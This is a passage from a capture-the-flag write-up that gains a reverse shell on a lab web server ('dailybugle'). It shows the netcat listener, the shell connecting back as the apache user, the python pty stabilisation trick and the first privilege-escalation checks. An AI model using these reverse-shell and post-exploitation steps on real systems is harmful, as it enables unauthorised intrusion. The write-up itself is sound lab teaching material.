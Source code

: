 ````commandline
$ nc -nlvp 4444
````

Once our `NetCat` listener running, we can point the web browser to a non-existent page, for example <http://10.10.96.66/index.php/foo>. Which will catch a `404` (not found error) and thus start our reverse shell connection.

````commandline
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.96.66] 33410
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:06:51 up  4:05,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
````

## Stabilizing the shell

Now that we are in the target machine, it is time to stabilize our shell so that we have all nice shell features like shell history, the autocompletion but most important also, our connection will not break if we press `CTRL + C`. I used the classic and popular shell stabilisation method.

````commandline
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ export TERM=xterm-256color
export TERM=xterm-256color
bash-4.2$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/dailybugle]
└─$ stty raw -echo; fg
nc -nlvp 4444

bash-4.2$ 
Display all 1325 possibilities? (y or n)
````

## Grabbing the user flag, a try

We can now grab the user flag. At least trying. But we discover we can not enter the user directory, nor escalate the easy way.

````commandline
bash-4.2$ pwd
/
bash-4.2$ ls /home/
jjameson
bash-4.2$ cd /home/jjameson/
bash: cd: /home/jjameson/: Permission denied
bash-4.2$ whoami
apache
bash-4.2$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for apache:
````